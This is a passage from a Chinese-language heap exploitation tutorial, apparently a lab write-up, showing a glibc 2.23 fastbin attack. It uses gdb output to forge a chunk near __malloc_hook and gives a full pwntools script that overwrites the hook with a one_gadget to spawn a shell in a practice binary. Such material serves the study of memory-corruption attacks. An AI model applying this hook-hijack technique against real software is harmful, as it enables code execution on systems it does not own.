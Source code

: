 通过查看内存可以找到

Malloc_hook偏移35字节，可以构成fake_chunk(size=0x7f)

```
gef➤  x/20xg 0x7ffff7dd1b10-35

0x7ffff7dd1aed &lt;_IO_wide_data_0+301&gt;:    0xfff7dd0260000000    0x000000000000007f  &lt;--fake_chunk
0x7ffff7dd1afd:    0xfff7a92e20000000    0xfff7a92a0000007f
0x7ffff7dd1b0d &lt;__realloc_hook+5&gt;:    0x000000000000007f    0x0000000000000000
0x7ffff7dd1b1d:    0x0100000000000000    0x0000000000000000
```

通过写入chunk_A，覆盖被Free的Chunk_B，修改其FD指针指向malloc_hook-35的fake_chunk

```
gef➤  heap bin fast

─────[ Fastbins for arena 0x7ffff7dd1b20 ]────
Fastbin[0] 0x00
...: 
Fastbin[5]  →   UsedChunk(addr=0x602080,size=0x70)   →   UsedChunk(addr=0x7ffff7dd1afd,size=0x7c)
```

接下来两次malloc，第二次malloc的时候，$rax被赋值0x00007ffff7dd1afd，就在malloc_hook-35的位置成了我们的内存空间（指针e）。此时向e写入35以上的字符就能malloc_hook的值。

结合我们获取的one_gadget，程序结尾调用malloc就会自动跳转到one_gadget.

PS:如果实战中的利用手法可以参考我IE漏洞分析UAF的[文章](https://www.anquanke.com/post/id/190590)，使用栈翻转来执行ROP链，利用原理都是通用的，此处不再赘述。

给出完整利用代码[仅限libc.2.23.so]

```
from pwn import *


p=process("./fastbins_attack")
gdb.attach(p,"b main")


malloc_hook=0x3c4b10
one_gadget=0x45216 # execve("/bin/sh", rsp+0x30, environ)
base=0x00007ffff7a0d000 #libc-2.23.so


payload1="A"*0x68
payload1+=p64(0x71)
payload1+=p64(malloc_hook+base-35)

print "malloc_hook="+str(malloc_hook)
print "[+]sending payload.."
#p.recvuntil("overflow:")
p.sendline(payload1)


print "[+]sending payload2.."
payload2="A"*(35-16)+p64(one_gadget+base)
p.recvuntil("write:")
p.sendline(payload2)

p.interactive()
```
